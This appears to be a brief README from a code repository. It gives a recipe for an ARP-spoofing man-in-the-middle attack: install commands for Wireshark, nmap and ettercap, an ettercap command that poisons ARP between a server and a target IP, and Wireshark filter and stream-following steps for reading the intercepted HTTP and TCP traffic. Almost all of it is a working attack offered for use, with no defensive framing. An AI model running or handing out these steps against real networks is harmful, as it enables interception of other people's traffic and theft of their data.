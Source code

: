 **tools**
<pre>
apt install wireshark
apt install nmap
apt install ettercap-text-only
</pre>

**attack**
<pre>
  sudo ettercap -T -S -i eth0 -M arp:remote /server_ip// /target_ip/
 open wireshark
  sudo wireshark
 select the eth0 or wlan0
 stop
 FILTERS: ip.addr == 10.0.4
          ip.addr == 10.0.4 && http
 select-> follow->tcp stream/http stream

</pre>
